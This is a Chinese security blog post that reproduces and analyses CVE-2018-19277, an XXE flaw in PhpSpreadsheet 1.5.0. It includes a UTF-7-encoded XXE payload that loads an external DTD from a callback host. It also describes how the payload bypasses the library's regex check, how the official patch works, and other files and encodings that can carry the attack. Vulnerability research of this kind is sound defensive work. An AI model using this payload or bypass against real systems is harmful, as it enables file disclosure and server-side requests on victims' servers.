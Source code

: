 > 原文链接: https://www.anquanke.com//post/id/170068 


# PhpSpreadsheet 1.5.0 XXE漏洞复现及分析


                                阅读量   
                                **226059**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p1.ssl.qhimg.com/t012f7c46b3d4cbfd9b.png)](https://p1.ssl.qhimg.com/t012f7c46b3d4cbfd9b.png)



## 0x01 前言

PhpSpreadsheet是一个非常流行的纯PHP类库，能够让你方便的读写Excel、LibreOffic Calc等表格格式的文件，是PHPExcel的替代者。2018年11月13日，PhpSpreadsheet 被爆出存在XXE漏洞（CVE-2018-19277)，在表格的解压文件中插入UTF-7编码的恶意xml payload，可绕过PhpSpreadsheet 库的安全检查造成XXE攻击。



## 0x02 影响范围

PhpSpreadsheet 1.5.0及以下版本



## 0x03 漏洞复现

自Office 2007以后，Excel存储的文件后缀为xlsx，相对于之前的旧版本多了一个X，实质上xlsx文件是一个压缩包。新建一个exploit.xlsx空文件，执行`unzip exploit.xlsx`

[![](https://p2.ssl.qhimg.com/t016e4b9f78650ecc99.png)](https://p2.ssl.qhimg.com/t016e4b9f78650ecc99.png)

将如下payload进行UTF-7编码，并替换掉xl/worksheets/sheet1.xml。

```
&lt;?xml version="1.0" encoding="UTF-8"?&gt;
&lt;!DOCTYPE xmlrootname [&lt;!ENTITY % aaa SYSTEM "http://xxxxx.ceye.io/lalala.dtd"&gt;%aaa;%ccc;%ddd;]&gt;
```

编码后的payload如下图 ，注意一定要修改xml编码encoding的值。

[![](https://p1.ssl.qhimg.com/t01bb93b73ec05d3fff.png)](https://p1.ssl.qhimg.com/t01bb93b73ec05d3fff.png)

执行`zip -r ../exploit1.xlsx *`进行重打包生成exploit1.xlsx；切换到Web目录，利用composer安装1.5.0版本的PhpSpreadsheet `composer require phpoffice/phpspreadsheet=1.5.0`，在同一目录下新建excel.php，内容如下所示：

```
&lt;?php
error_reporting(-1);
require 'vendor/autoload.php';
$reader = PhpOfficePhpSpreadsheetIOFactory::createReader('Xlsx'); //创建Xlsx读对象
$reader-&gt;setReadDataOnly(TRUE);
$spreadsheet = $reader-&gt;load('exploit1.xlsx'); //加载excel表格文件exploit1.xlsx
?&gt;
```

开启报错提示后，访问excel.php会看到warning信息，有利于我们快速定位到问题函数和所在行。

[![](https://p3.ssl.qhimg.com/t01955679c8bd30fd8e.png)](https://p3.ssl.qhimg.com/t01955679c8bd30fd8e.png)

随后，在ceye平台上看到了解析xml文件时的外部实体请求。

[![](https://p4.ssl.qhimg.com/t01d34f2d821008b8ce.png)](https://p4.ssl.qhimg.com/t01d34f2d821008b8ce.png)



## 0x04 漏洞分析

漏洞分析从我们创建的excel.php开始，文件第4行调用了vendor/phpoffice/phpspreadsheet/src/PhpSpreadsheet/IOFactory.php的createReader方法，当$readers数组中不存在$readerType的key值时，便会抛出异常。

[![](https://p2.ssl.qhimg.com/t0149e951c2e734185d.png)](https://p2.ssl.qhimg.com/t0149e951c2e734185d.png)

这里传递的`$readerType='Xlsx'`，因此返回对应的value值为`ReaderXlsx::class`

[![](https://p3.ssl.qhimg.com/t01b60ad3d7d87709af.png)](https://p3.ssl.qhimg.com/t01b60ad3d7d87709af.png)

77行则创建了PhpOfficePhpSpreadsheetReaderXlsx对象，随后返回给$reader对象，并调用了load方法；跟进到对应的类文件vendor/phpoffice/phpspreadsheet/src/PhpSpreadsheet/Reader/Xlsx.php，在389行定义了load方法，方法先调用了File类的assertFile方法判断表格文件是否存在，并在402-403调用 ZipArchive类的open方法打开exploit1.xlsx文件便于调用解压后的子文件。

[![](https://p4.ssl.qhimg.com/t017300fd11e4e6df29.png)](https://p4.ssl.qhimg.com/t017300fd11e4e6df29.png)

随后load方法会根据解压后文件类型进行逐一处理，这里不一一分析，根据warning信息直接定位到760行的simplexml_load_string方法，该方法通常用于把 XML 字符串载入对象中，如若使用不当则容易导致XXE漏洞。这里先调用了getFromZipArchive方法处理xl/wordsheets/sheet1.xml，即插入xxe payload的xml文件。

[![](https://p2.ssl.qhimg.com/t01db66d45e8cb1474b.png)](https://p2.ssl.qhimg.com/t01db66d45e8cb1474b.png)

跟进到getFromZipArchive方法，该方法调用了ZipArchive::getFromName方法，根据文件名从压缩文件中获取对应文件的内容并返回。

[![](https://p1.ssl.qhimg.com/t01f1654eddaa480c9c.png)](https://p1.ssl.qhimg.com/t01f1654eddaa480c9c.png)

返回Xlsx.php的757行，getFromZipArchive方法的返回值还经过了securityScan方法处理，跟进到Xlsx类的父类vendor/phpoffice/phpspreadsheet/src/PhpSpreadsheet/Reader/BaseReader.php，securityScan方法利用正则表达式匹配`/?&lt;?!?D?O?C?T?Y?P?E?/`，正是由于采用了UTF-7编码，导致`&lt;!DOCTYPE`字符串被编码，从而绕过了securityScan方法对XXE攻击的防御。

[![](https://p5.ssl.qhimg.com/t01b6c09f62673095cc.png)](https://p5.ssl.qhimg.com/t01b6c09f62673095cc.png)



## 0x05 官方补丁分析

官方在2018年11月21日放出补丁修复了该漏洞，创建了一个PHPOffice/PhpSpreadsheet/src/PhpSpreadsheet/Reader/Security/XmlScanner.php xml内容安全检查的类文件，在Xlsx.php的构造函数中实例化了这个安全类，随后在调用simplexml_load_string方法处理xml内容之前，都会调用安全类的scan方法检查是否存在XXE攻击。

[![](https://p1.ssl.qhimg.com/t01d8b153d623a94429.png)](https://p1.ssl.qhimg.com/t01d8b153d623a94429.png)

我们跟进到XmlScanner.php，发现该类主要采用两个方法防止XXE攻击：一是在构造函数中，当PHP版本为7.x时，设置`libxml_disable_entity_loader(true)`禁止加载外部实体；

[![](https://p5.ssl.qhimg.com/t014e0157694ad434f0.png)](https://p5.ssl.qhimg.com/t014e0157694ad434f0.png)

二是在scan方法中，通过正则匹配XML的编码格式，并将其转换成UTF-8编码，再利用正则匹配是否存在``/?&lt;?!?D?O?C?T?Y?P?E?/`，官方补丁通过两个方法相结合的方式防止XXE攻击。

[![](https://p3.ssl.qhimg.com/t014705e9a20d6f2e6e.png)](https://p3.ssl.qhimg.com/t014705e9a20d6f2e6e.png)



## 0x06 小结

通过分析其实可以发现，Xlsx.php的load方法不单单只处理了xl/wordsheets/sheet1.xml，也解析了包括

```
xl/_rels/workbook.xml.rels
xl/theme/theme1.xml
_rels/.rels
docProps/app.xml
docProps/core.xml
xl/_rels/workbook.xml.rels
xl/styles.xml
xl/workbook.xml
```

可以将UTF-7编码的payload替换上述文件内容，同样可以触发XXE攻击。并且，UTF-7也并非唯一可用编码，诸如UTF-16等可绕过安全正则检查的编码方式也可被利用。PhpSpreadsheet作为PHP处理表格文件最流行的类库，被大量的用户和网站使用，建议开发人员及时升级版本到最新。



## 参考

[https://www.anquanke.com/vul/id/1389396](https://www.anquanke.com/vul/id/1389396)

[https://github.com/PHPOffice/PhpSpreadsheet/issues/771](https://github.com/PHPOffice/PhpSpreadsheet/issues/771)
